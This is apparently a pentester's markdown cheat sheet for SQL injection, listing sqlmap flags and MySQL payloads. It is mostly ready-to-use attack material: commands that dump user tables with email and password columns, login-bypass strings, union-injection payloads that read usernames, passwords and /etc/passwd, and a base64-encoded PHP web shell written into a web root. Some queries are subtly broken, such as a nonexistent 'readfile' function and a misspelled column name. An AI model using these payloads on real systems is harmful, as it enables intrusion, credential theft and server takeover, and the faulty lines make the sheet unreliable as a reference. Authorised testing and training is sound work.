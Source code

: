 # SQLi
 - [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## SQLMap
### Tips
- Copy the request as cURL in the devtools and change curl to sqlmap
- Save burp requests to text files and load them in sqlmap with `sqlmap -r request.txt`
### Don't ask for user input
```bash
sqlmap ... --batch
```
### Fingerprint
```bash
sqlmap ... --current-user --banner --current-db --is-dba
```
#### Enum everything at once
```bash
sqlmap ... --all --batch -v 0
```
#### Enum schema
```bash
sqlmap ... --schema
```
#### Enum dbs
```bash
sqlmap ... --dbs
```
#### Enum tables
```bash
sqlmap ... -D dbname --tables
```
#### Enum columns
```bash
sqlmap ... -D dbname -T users --columns
```
#### Search table by string
```bash
sqlmap ... --search -T something
```
#### Search column by string
```
sqlmap ... --search -C something
```
### Dump everything
```bash
sqlmap ... --dump-all
```
### Dump table contents
```bash
sqlmap ... --dump -D dbname -T users -C email,password
```
### Dump w/ filters
```bash
sqlmap ... --dump -D dbname -T users --where="email LIKE '%something%'" --start=1 --stop=15
```
### Send traffic through proxy
```bash
sqlmap ... --proxy http://127.0.0.1:8080
```
### Save traffic to file
```bash
sqlmap ... -t ./out.txt
```
### Verbosity
#### Show errors
```bash
sqlmap ... --parse-errors
```
#### Verbose output
```bash
# No info logs
sqlmap ... -v 0
```
```bash
# All payloads
sqlmap ... -v 3
```
### Tuning
```bash
sqlmap ... --level=5 --risk=3
```
```bash
sqlmap ... --union-cols=6 --union-char='A'
```
```bash
sqlmap ... --prefix="\`)" --suffix="-- +" 
```

## Mysql
- [payload all the things mysql](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
### Fingerprint
```sql
select @@version
select sleep(3)
```
#### Enum dbs
```sql
select schema_name from information_schema.schemata
```
#### Enum tables
```sql
select table_name,table_schame from information_schema.tables where table_schema='zzz'
```
#### Enum columns
```sql
select column_name,table_name from information_schema.columns where table_name='zzz' and table_schema='zzz'
```
#### Enum current user
```sql
select user();
```
#### Enum current user privileges
```sql
select grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'<user>'@'<host>'"
```
#### Enum current user write file
Check if value is empty for access, whereas NULL means no access.
```sql
select variable_name,variable_value from information_schema.global_variables where variable_name='secure_file_priv'
```
### Read file
```sql
select readfile('/etc/passwd')
```
### Write file
```sql
select from_base64("PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+") into outfile '/var/www/html/pwn.php'
```
### Login bypass
```sql
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
### Some union injection examples
```sql
' union select 1,username,password,4,5,6 from db1.users;-- -
```
```sql
' union select 1,user(),3,4,5,6;-- -
```
```sql
' union select 1,sleep(3),3,4,5,6;-- -
```
```sql
' union select 1,readfile("/etc/passwd"),3,4,5,6;-- -
```
